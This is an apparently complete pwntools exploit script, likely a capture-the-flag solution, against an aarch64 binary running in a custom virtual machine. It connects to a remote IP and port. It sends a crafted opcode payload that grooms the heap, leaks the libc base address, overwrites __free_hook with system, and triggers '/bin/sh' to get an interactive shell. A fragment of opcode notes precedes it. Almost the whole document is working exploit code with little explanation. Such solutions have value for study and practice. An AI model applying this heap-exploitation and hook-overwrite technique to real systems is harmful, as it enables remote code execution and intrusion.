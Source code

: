 ```python
           opcode++; Down ->2、3->2; or 0->1;
0x7: 0x61->
           opcode++; Left ->2、3->2; or 0->1;
0x8: 0x64->
           opcode++; Right->2、3->2; or 0->1;
0x9: 0x70->
           show;opcode++;
0xA: 0x00->Exit
0xB: 0x01->default;opcode++;

'''
#p = process(['qemu-aarch64','-g','5555','-L','.','./main'])
libc = ELF('./libc-2.27.so')
p = remote('8.140.179.11',13422)
payload  = '\x4D\x10\x10' #init_All_Var
payload += '\x2A\x00\x04\xF0\x04' # Add 0
payload += '\x2A\x00\x05\x10\x00' # Add 1
payload += '\x2F\x00\x04' #delete 0
payload += '\x2A\x00\x04\xF0\x00' # Add 0
payload += '\x70'
payload += '\x73'*0xE
payload += '\x64\x61'*0x36
payload += '\x64'*6
payload += '\x2B\x0E\x07\x03'
payload += '\x64'
payload += '\x2B\x0F\x08\x03'
payload += '\x73'
payload += '\x2A\x00\x06\x70\x00' # Add 2
payload += '\x2A\x00\x07\x70\x03' # Add 3
payload += '\x2F\x00\x06' # delete 2
payload += '\x2F\x00\x04' # delete 0
payload += '\x2A\x00\x04\x70\x01' # Add 0
payload += '\x2A\x00\x06\x70\x00' # Add 2
payload += '\x2A\x00\x08\x70\x00' # Add free_hook
payload += '\x2F\x00\x06' # delete 2
payload += '\x00'
p.sendlineafter('cmd> ',payload)
sleep(0.1)
p.sendline('FMYY')
sleep(0.1)
p.sendline('FMYY')
sleep(0.1)
p.send('\x10') 
p.recvuntil('pos:0,4\n')
libc_base = (u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) | 0x4000000000) - 0xF10 - 0x154000
log.info('LIBC:\t' + hex(libc_base))
log.info('__malloc_Hook:\t' + hex(libc_base + libc.sym['__malloc_hook']))
system = libc_base + libc.sym['system']
free_hook = libc_base + libc.sym['__free_hook']
log.info('__free_hook:\t' + hex(free_hook))
p.sendline('FMYY')
sleep(0.1)
p.sendline('FMYY')
sleep(0.1)
p.sendline('\x00'*0x100 + p64(free_hook))
sleep(0.1)
p.sendline('/bin/sh\x00')
sleep(0.1)
p.sendline(p64(system))
sleep(0.1)

p.interactive()
```
